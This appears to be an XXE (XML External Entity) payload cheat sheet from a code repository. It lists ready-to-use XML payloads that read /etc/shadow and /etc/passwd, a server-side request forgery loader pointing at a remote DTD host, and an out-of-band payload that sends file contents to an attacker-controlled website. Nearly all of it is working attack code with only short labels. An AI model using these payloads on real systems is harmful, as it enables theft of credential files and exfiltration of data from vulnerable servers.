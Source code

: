 XXE: Basic XML Example

<!--?xml version="1.0" ?-->
<userInfo>
  <firstName>Rahul</firstName>
  <lastName>Jain</lastName>
</userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Entity Example

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY test "Doe"> ]>
 <userInfo>
  <firstName>Rahul</firstName>
  <lastName>&test;</lastName>
 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: File Disclosure

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY test SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>Rahul</firstName>
 <lastName>&test;</lastName>
</userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Local File Inclusion Example

<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Server Side Request Forgery Example

<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY % remote SYSTEM 'http://IP/file_name'>
	%remote;
	%int;
	%trick; ]>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Payload Using DTD File

<!ENTITY % a SYSTEM 'file:///etc/passwd'>
<!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'your website/cookie=?%a;'> " > 
%b;
%c;

(&#x25),(&#37) Are the  Hex and decimal value of (%)

To Call This File   

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ENTITY % remote SYSTEM 'http://IP/file_name'>
%remote;

----------------------------------------------------------------------------------------------------------------------------------------------------------
